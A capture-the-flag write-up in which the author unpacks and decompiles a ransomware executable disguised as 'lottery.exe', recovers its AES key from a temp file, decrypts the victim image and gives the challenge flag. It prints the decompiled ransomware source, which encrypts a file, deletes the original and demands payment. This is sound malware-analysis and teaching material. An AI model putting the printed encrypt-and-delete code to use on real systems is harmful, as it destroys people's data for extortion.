



# Lottery
## Description
Now that you know the CVE, figure out how the attacker crafted the payload & executed it to compromise the 'secret'.
## Solution
- `lottery.exe` is the malicious file that is being executed by the user. 
- I got to know of a tool called [VirusTotal](https://www.virustotal.com/gui/home/upload), which can be used to scan suspicious files for malware.
- I found this after uploading the file: 
- It can be seen that the program is packed using PyInstaller. I looked up how to extract the embedded Python files for analysis. 
- I got to know of a tool called [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) which can be used to extract the contents of a PyInstaller executable.
- Created the file [pyinstxtractor.py](./pyinstxtractor.py) and ran `python3 pyinstxtractor.py lottery.exe` and got:
```
[+] Processing lottery.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 9008682 bytes
[+] Found 122 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: lottery.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.8 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: lottery.exe

You can now use a python decompiler on the pyc files within the extracted directory
```
- It created a new folder [lottery.exe_extracted](./lottery.exe_extracted/). Running `ls` in the directory gave me:
```
Crypto                                          api-ms-win-core-timezone-l1-1-0.dll
PYZ-00.pyz                                      api-ms-win-core-util-l1-1-0.dll
PYZ-00.pyz_extracted                            api-ms-win-crt-conio-l1-1-0.dll
VCRUNTIME140.dll                                api-ms-win-crt-convert-l1-1-0.dll
_bz2.pyd                                        api-ms-win-crt-environment-l1-1-0.dll
_cffi_backend.cp38-win_amd64.pyd                api-ms-win-crt-filesystem-l1-1-0.dll
_ctypes.pyd                                     api-ms-win-crt-heap-l1-1-0.dll
_decimal.pyd                                    api-ms-win-crt-locale-l1-1-0.dll
_hashlib.pyd                                    api-ms-win-crt-math-l1-1-0.dll
_lzma.pyd                                       api-ms-win-crt-process-l1-1-0.dll
_multiprocessing.pyd                            api-ms-win-crt-runtime-l1-1-0.dll
_queue.pyd                                      api-ms-win-crt-stdio-l1-1-0.dll
_socket.pyd                                     api-ms-win-crt-string-l1-1-0.dll
_ssl.pyd                                        api-ms-win-crt-time-l1-1-0.dll
api-ms-win-core-console-l1-1-0.dll              api-ms-win-crt-utility-l1-1-0.dll
api-ms-win-core-datetime-l1-1-0.dll             base_library.zip
api-ms-win-core-debug-l1-1-0.dll                libcrypto-1_1.dll
api-ms-win-core-errorhandling-l1-1-0.dll        libffi-7.dll
api-ms-win-core-file-l1-1-0.dll                 libssl-1_1.dll
api-ms-win-core-file-l1-2-0.dll                 lottery.pyc
api-ms-win-core-file-l2-1-0.dll                 pyexpat.pyd
api-ms-win-core-handle-l1-1-0.dll               pyi_rth_inspect.pyc
api-ms-win-core-heap-l1-1-0.dll                 pyi_rth_multiprocessing.pyc
api-ms-win-core-interlocked-l1-1-0.dll          pyi_rth_pkgres.pyc
api-ms-win-core-libraryloader-l1-1-0.dll        pyi_rth_pkgutil.pyc
api-ms-win-core-localization-l1-2-0.dll         pyi_rth_setuptools.pyc
api-ms-win-core-memory-l1-1-0.dll               pyiboot01_bootstrap.pyc
api-ms-win-core-namedpipe-l1-1-0.dll            pyimod01_archive.pyc
api-ms-win-core-processenvironment-l1-1-0.dll   pyimod02_importers.pyc
api-ms-win-core-processthreads-l1-1-0.dll       pyimod03_ctypes.pyc
api-ms-win-core-processthreads-l1-1-1.dll       pyimod04_pywin32.pyc
api-ms-win-core-profile-l1-1-0.dll              python38.dll
api-ms-win-core-rtlsupport-l1-1-0.dll           select.pyd
api-ms-win-core-string-l1-1-0.dll               setuptools-56.0.0.dist-info
api-ms-win-core-synch-l1-1-0.dll                struct.pyc
api-ms-win-core-synch-l1-2-0.dll                ucrtbase.dll
api-ms-win-core-sysinfo-l1-1-0.dll              unicodedata.pyd
```
- I found the file `lottery.pyc` which is the Python bytecode file. 
- I learnt that I need to decompile this file and can use a tool called `uncompyle6` for this. I installed it using `pip3 install uncompyle6`.
- I decompiled the `lottery.pyc` file using `uncompyle6 -o .. lottery.pyc` and got the Python code in the parent directory [lottery.py](./lottery.py):
```python
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.12.3 (v3.12.3:f6650f9ad7, Apr  9 2024, 08:18:47) [Clang 13.0.0 (clang-1300.0.29.30)]
# Embedded file name: lottery.py
import os, tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile(mode="w+b", delete=False)
    fp.write(key)
    return key


def encrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, "rb") as file:
        data = file.read()
        padded_data = pad(data, AES.block_size)
        cipher = AES.new(key, AES.MODE_CBC, iv)
        encrypted_data = cipher.encrypt(padded_data)
    file.close()
    encrypted_file_path = file_path + ".enc"
    with open(encrypted_file_path, "wb") as encrypted_file:
        encrypted_file.write(encrypted_data)
    os.remove(file_path)


if __name__ == "__main__":
    key = generate_key()
    file_path = "secret.png"
    encrypt_file(file_path, key)
    print("Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!")
```
- The script uses AES encryption to encrypt the file `secret.png`. The key is generated using `os.urandom(32)` and stored in a temporary file. The IV is `b'urfuckedmogambro'`. The encrypted file is saved as `secret.png.enc`.
- We need the key to decrypt the file. I was chatting with an LLM and it suggested me to check the `AppData\Local\Temp` directory for the key file. 
- And indeed, I found the key file of 32 bytes [tmpd1tif_2a](./tmpd1tif_2a): 
- The key's hex code is `FBF60E95C2F3C96F36E1195538E34E30CF1A290F1C14CD5E699E476A3BE2BC5E`.
- Created the script [decrypt.py](./decrypt.py) with the help of an LLM to decrypt the file:
```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import binascii

def decrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, "rb") as encrypted_file:
        encrypted_data = encrypted_file.read()
        cipher = AES.new(key, AES.MODE_CBC, iv)
        decrypted_data = unpad(cipher.decrypt(encrypted_data), AES.block_size)
    decrypted_file_path = file_path.replace(".enc", "_decrypted.png")
    with open(decrypted_file_path, "wb") as decrypted_file:
        decrypted_file.write(decrypted_data)

# Convert hexadecimal key to bytes
hex_key = "FBF60E95C2F3C96F36E1195538E34E30CF1A290F1C14CD5E699E476A3BE2BC5E"
key = binascii.unhexlify(hex_key)

decrypt_file("secret.png.enc", key)
```
- Running the script decrypted the file [secret.png.enc](./secret.png.enc) and created the decrypted file 
- The flag is: `BITSCTF{1_r3c3ived_7h3_b0mbz}`.